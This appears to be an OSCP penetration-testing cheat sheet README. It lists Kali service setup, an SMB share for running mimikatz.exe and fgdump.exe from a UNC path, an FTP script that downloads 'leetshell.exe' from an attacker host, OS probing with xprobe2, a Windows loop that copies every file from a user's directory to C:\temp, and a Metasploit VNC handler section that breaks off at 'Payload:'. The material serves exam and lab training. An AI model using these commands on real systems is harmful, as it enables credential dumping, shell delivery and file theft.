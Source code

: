 # OSCP-Repo


## Getting setup

Before starting i like to ensure my Kali instance is ready.
Configutation of each component is required. 
The window will remain open with the output of the SMB Server.

```
service apache2 start
systemctl start postgresql
systemctl start ssh
systemctl start pure-ftpd
impacket-smbserver share /root/smb 
```


## Setup SMB
Copy your post exploit tools to your SMB share allows you to run things directly from the UNC path

```
\\10.0.0.1\share\mimikatz.exe
\\10.0.0.1\share\fgdump.exe
```

## Remote Desktop with custom resolution
```
rdesktop -g 1600x1200 -u username -p password 10.0.0.0
```

## Download file with FTP
```
echo open 10.0.0.1 21> ftp.txt & echo USER barry>> ftp.txt & echo Password>> ftp.txt& echo bin >> ftp.txt & echo GET leetshell.exe >> ftp.txt & echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```
## Probe for remote OS:
```
xprobe2 -v -p tcp:80:open 10.0.0.2
```

## Windows: Copy all files from a structured directory to an unstructured directory
```
for /r C:\Users\barry\ %f in (*.*) do @copy "%f" C:\temp\
````


## Metasploit VNC Handler setup
Doesnt always work, but sometimes its nice to have a GUI.
Payload:
